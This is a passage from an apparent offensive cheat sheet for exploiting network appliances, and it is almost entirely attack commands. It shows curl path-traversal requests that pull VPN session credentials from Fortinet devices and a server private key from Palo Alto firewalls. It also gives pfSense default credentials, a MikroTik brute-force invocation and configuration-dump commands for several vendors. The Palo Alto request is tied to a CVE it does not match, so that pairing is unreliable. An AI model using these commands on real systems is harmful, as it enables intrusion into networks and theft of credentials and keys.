 **Fortinet SSL VPN Exploits**
```bash
# CVE-2018-13379 - Path traversal
curl "https://target.com/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession"
```

### 4. Firewall Exploitation

**Palo Alto Firewalls**
```bash
# CVE-2020-2021 - Authentication bypass
curl -k "https://target.com/php?id=../../../../opt/pancfg/mgmt/ssl/private/server.key"
```

**pfSense**
```bash
# Default credentials: admin/pfsense
# Command injection in various versions
# Check for CVEs specific to version
```

### 5. Router Exploitation

**Mikrotik RouterOS**
```bash
# Winbox vulnerability (CVE-2018-14847)
# User enumeration and password extraction

# RouterOS API brute force
python mikrotik_bruteforce.py target.com
```

## Post-Exploitation

### Configuration Extraction

```bash
# Cisco IOS
enable
show running-config
show startup-config

# Juniper JunOS
show configuration

# Mikrotik
/export file=config

# Fortinet
show full-configuration
```

### Credential Extraction
